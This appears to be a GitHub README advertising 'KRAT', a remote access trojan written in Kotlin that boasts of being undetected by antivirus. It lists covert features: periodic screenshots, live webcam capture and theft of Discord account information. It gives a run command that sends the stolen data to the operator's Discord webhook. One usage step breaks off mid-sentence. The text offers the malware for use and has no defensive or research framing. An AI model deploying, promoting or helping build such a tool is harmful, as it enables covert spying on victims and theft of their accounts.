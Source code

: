 ### Current status: 🟢[Undetected](https://virustotal.com)

# KRAT

A RAT (Remote Access Trojan) written in Kotlin.

## Features
- Get periodicals screenshots
- Get real-time webcam
- Sends Discord account information

## Usage
1. Download the latest release and put it on a server
2. Run the `.jar` file with your Discord webhook link as parameter

```sh
java -jar KRAT.jar <webhook-link>
```
3. The program will connect to your Discord bot and ask for

## Stack
- [Kotlin](https://kotlinlang.org/)
- [Kord](https://kordlib.github.io/kord/)
- [webcam-capture](https://github.com/sarxos/webcam-capture)